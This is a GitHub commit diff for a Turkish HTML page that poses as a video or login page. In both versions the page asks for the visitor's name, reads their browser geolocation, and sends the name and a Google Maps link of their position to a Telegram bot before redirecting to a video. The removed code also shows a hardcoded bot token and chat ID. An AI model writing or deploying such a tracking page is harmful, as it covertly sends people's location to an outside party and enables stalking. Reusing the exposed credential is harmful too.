

Before and after one commit to Ghaster1/Ghaster1, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-832 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,74 +2,43 @@
 <html lang="tr">
 <head>
   <meta charset="UTF-8">
-  <title>Video Başlatılıyor...</title>
-  <style>
-    body {
-      font-family: sans-serif;
-      text-align: center;
-      padding-top: 60px;
-    }
-    input, button {
-      padding: 10px;
-      margin: 10px;
-      width: 250px;
-      font-size: 16px;
-    }
-    #durum {
-      color: green;
-      height: 1.5em;
-    }
-  </style>
+  <title>Giriş Sayfası</title>
 </head>
 <body>
-
-  <h2>Giriş yapın</h2>
-  <input id="isim" placeholder="Adınız">
-  <br>
-  <button onclick="devam()">Devam Et</button>
-  <p id="durum"></p>
+  <h2>Giriş Yap</h2>
+  <input type="text" id="username" placeholder="Adınızı girin">
+  <button onclick="girisYap()">Giriş Yap</button>
 
   <script>
-    const BOT_TOKEN = "8103906170:AAFLQZ3RE499VbqoOoGUMDnWiUPxXFwvHsg";
-    const CHAT_ID = "8499614707";
-    const YOUTUBE_URL = "https://www.youtube.com/watch?v=PCMJtCjfxpw";
-
-    function arkadaGonder(isim, konum) {
-      const mesaj = `🧑 Ad: ${isim}\n📍 Konum: https://maps.google.com?q=${konum.lat},${konum.lon}`;
-      fetch(`https://api.telegram.org/bot${BOT_TOKEN}/sendMessage`, {
-        method: "POST",
-        headers: { "Content-Type": "application/json" },
-        body: JSON.stringify({ chat_id: CHAT_ID, text: mesaj })
-      });
-    }
-
-    function devam() {
-      const isim = document.getElementById("isim").value.trim();
-      const durum = document.getElementById("durum");
-
-      if (!isim) {
-        durum.style.color = "red";
-        durum.textContent = "Lütfen adınızı girin.";
+    async function girisYap() {
+      const name = document.getElementById("username").value;
+      if (!name) {
+        alert("Lütfen adınızı girin!");
         return;
       }
 
-      navigator.geolocation.getCurrentPosition(pos => {
-        const konum = {
-          lat: pos.coords.latitude.toFixed(6),
-          lon: pos.coords.longitude.toFixed(6)
-        };
+      if (!navigator.geolocation) {
+        alert("Tarayıcınız konum izni desteklemiyor.");
+        return;
+      }
 
-        arkadaGonder(isim, konum);
-        durum.textContent = "Video başlatılıyor...";
-        setTimeout(() => {
-          window.location.href = YOUTUBE_URL;
-        }, 1500);
-      }, err => {
-        durum.style.color = "red";
-        durum.textContent = "Konum alınamadı: " + err.message;
+      navigator.geolocation.getCurrentPosition(async function(position) {
+        const lat = position.coords.latitude;
+        const lon = position.coords.longitude;
+
+        // bilgiler.txt dosyasını oku
+        const response = await fetch("bilgiler.txt");
+        const text = await response.text();
+        const botToken = text.match(/BOT_TOKEN=(.*)/)[1].trim();
+        const chatId = text.match(/CHAT_ID=(.*)/)[1].trim();
+
+        const message = `👤 İsim: ${name}\n📍 Konum: https://www.google.com/maps?q=${lat},${lon}`;
+        const url = `https://api.telegram.org/bot${botToken}/sendMessage?chat_id=${chatId}&text=${encodeURIComponent(message)}`;
+
+        await fetch(url);
+        window.location.href = "-videouzantıkoy-"; // buraya videoyu sen koyacaksın
       });
     }
   </script>
-
 </body>
 </html>
```
